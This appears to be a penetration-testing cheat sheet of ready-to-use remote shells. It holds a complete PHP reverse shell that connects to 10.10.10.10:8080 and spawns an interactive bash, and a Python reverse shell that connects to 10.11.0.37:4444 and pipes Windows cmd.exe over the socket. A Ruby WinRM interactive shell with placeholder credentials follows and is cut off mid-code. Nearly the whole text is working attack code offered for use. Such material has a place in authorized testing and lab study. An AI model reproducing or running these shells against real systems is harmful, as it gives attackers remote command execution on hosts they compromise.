 <?php set_time_limit (0); $VERSION = "1.0"; $ip = "10.10.10.10"; $port = 8080; $chunk_size = 1400; $write_a = null; $error_a = null; $shell = "uname -a; w; id; /bin/bash -i"; $daemon = 0; $debug = 0; if (function_exists("pcntl_fork")) { $pid = pcntl_fork(); if ($pid == -1) { exit(1); } if ($pid) { exit(0); } if (posix_setsid() == -1) { exit(1); } $daemon = 1; } chdir("/"); umask(0); $sock = fsockopen($ip, $port, $errno, $errstr, 30); if (!$sock) { exit(1); } $descriptorspec = array(0 => array("pipe", "r"), 1 => array("pipe", "w"), 2 => array("pipe", "w")); $process = proc_open($shell, $descriptorspec, $pipes); if (!is_resource($process)) { exit(1); } stream_set_blocking($pipes[0], 0); stream_set_blocking($pipes[1], 0); stream_set_blocking($pipes[2], 0); stream_set_blocking($sock, 0); while (1) { if (feof($sock)) { break; } if (feof($pipes[1])) { break; } $read_a = array($sock, $pipes[1], $pipes[2]); $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null); if (in_array($sock, $read_a)) { $input = fread($sock, $chunk_size); fwrite($pipes[0], $input); } if (in_array($pipes[1], $read_a)) { $input = fread($pipes[1], $chunk_size); fwrite($sock, $input); } if (in_array($pipes[2], $read_a)) { $input = fread($pipes[2], $chunk_size); fwrite($sock, $input); } } fclose($sock); fclose($pipes[0]); fclose($pipes[1]); fclose($pipes[2]); proc_close($process); ?>
(originally sourced from: )
Python Reverse Shell for Windows
import os,socket,subprocess,threading;
​
def s2p(s, p):
    while True:
        data = s.recv(1024)
        if len(data) > 0:
            p.stdin.write(data)
​
def p2s(s, p):
    while True:
        s.send(p.stdout.read(1))
​
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.11.0.37",4444))
​
p=subprocess.Popen(["\\windows\\system32\\cmd.exe"], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE)
​
s2p_thread = threading.Thread(target=s2p, args=[s, p])
s2p_thread.daemon = True
s2p_thread.start()
​
p2s_thread = threading.Thread(target=p2s, args=[s, p])
p2s_thread.daemon = True
p2s_thread.start()
​
try:
    p.wait()
except KeyboardInterrupt:
    s.close()
WinRM Ruby Shell
require 'winrm'
​
conn = WinRM::Connection.new( 
  endpoint: 'https://IP:PORT/wsman',
  transport: :ssl,
  user: 'username',
  password: 'password',
  :no_ssl_peer_verification => true
)
​
command=""
​
conn.shell(:powershell) do |shell|
    until command == "exit\n" do
        print "PS > "
        command = gets        
        output = shell.run(command) do |stdout, stderr|